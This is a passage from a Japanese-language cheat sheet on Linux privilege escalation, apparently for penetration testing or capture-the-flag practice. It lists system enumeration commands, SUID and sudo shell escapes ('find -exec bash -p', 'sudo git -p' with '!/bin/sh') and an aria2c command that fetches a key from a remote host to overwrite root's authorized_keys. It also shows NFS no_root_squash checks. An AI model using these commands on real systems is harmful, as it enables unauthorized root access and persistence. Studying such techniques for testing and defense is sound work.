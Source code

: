 ```bash
find * -exec bash -p \;
```

### Debianシステムでインストールされているアプリケーション一覧
```bash
dpkg -l
```

### `sudo`を使ったGitの設定ヘルプの表示
```bash
sudo git -p help config
```
- シェルに入るための省略コマンド: `!/bin/sh`

### `aria2c`（ファイルの並列ダウンロード）コマンドを使用したファイルの上書き

```bash
aria2c -d /root/.ssh/ -o authorized_keys "http://192.168.0.99:8000/id_rsa.pub" --allow-overwrite=true
```

### マウントされたドライブの一覧
```bash
cat /etc/fstab
```

### すべての利用可能なドライブの一覧
```bash
lsblk
```

### 読み込まれているドライバの一覧
```bash
lsmod
```

## 参考サイト
- [GTFObins - 各種ファイル等を利用した権限昇格サイト](https://gtfobins.github.io/)

---
## Mountable Shares

### ターゲット上の共有ディレクトリを確認
```bash
cat /etc/exports
```

### 攻撃者側で共有ディレクトリの一覧を表示
```bash
showmount -e <target IP>
```
- 出力の中に`"no_root_squash"`が含まれているか確認します。
